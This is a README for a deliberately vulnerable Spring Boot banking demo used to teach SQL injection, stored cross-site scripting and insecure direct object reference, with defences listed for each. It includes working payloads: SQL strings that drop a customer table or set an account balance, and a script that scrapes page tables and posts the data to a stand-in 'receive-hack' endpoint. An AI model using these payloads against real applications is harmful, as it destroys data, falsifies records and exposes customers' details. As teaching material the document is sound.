# Common Security Vulnerability Demo

The purpose of this application is to illustrate a few common security vulnerabilities in web applications. Understanding how these exploits work is critical in being able to defend against them. 

## Application Setup

This application runs in two different modes: 
* Secure - proper protections and being used to mitigate the attacks
* Insecure - the application is exposed to attacks

To run it in either mode, use the spring profile field when starting the app as follows:

Insecure

`mvn spring-boot:run -Dspring.profiles.active=insecure`
Use a browser to access `http://localhost:8080`

Secure

`mvn spring-boot:run -Dspring.profiles.active=secure`
User a browser to access `http://localhost:8081`

Currently, the application illustrates the following vulnerabilities
* SQL Injection
* Stored Cross-site scripting (XSS)

## SQL Injection

To exploit this vulnerability, log in as a customer and inject SQL into the first name field as follows

`'; SQL Here; --`

For example:

`' DROP TABLE customer; --`

`' UPDATE bank_account SET balance=999999999 WHERE customer_id=2; --

You may view the database by logging into the H2 console by clicking the link from the index page. The connection details are found in the application.properties file.

Defending against this vulnerability can be done at multiple levels
* ORM
* Input validation

## Cross-site scripting

To exploit this vulnerability, log in as a customer and inject the following javascript into the first name field as follows

`<script type="text/javascript">$(document).ready(function(){var accountInfo="";$("table").children("tbody").children("tr").each(function(){$(this).children("td").each(function(){accountInfo=accountInfo+";"+$(this).text();});});$.post("http://localhost:8080/receive-hack", {accountInfo:accountInfo});});alert("hacked");</script>`

This attack will allow a malicious user to inject a script into the database that then will run on the employee level and expose customer details to another endpoint controlled by the malicious user. In this case, it is simply the same app server, but this would be different in a real attack.

Defending against this vulnerability can be done at multiple levels
* Validating user input 
* Encoding dynamic output on web pages

## Insecure Direct Object Reference

To exploit this vulnerability, log in as a customer and type in the following url which will allow you to access sensitive employee-only information directly.

`/sensitive`

This attack allows users to access information that they should not be authorized to access. 

Defending against this vulnerability can be done through multiple authorization mechanisms
* URL-level protection
* Method-level security with role-based access configuration
* Method pre-authorization configuration


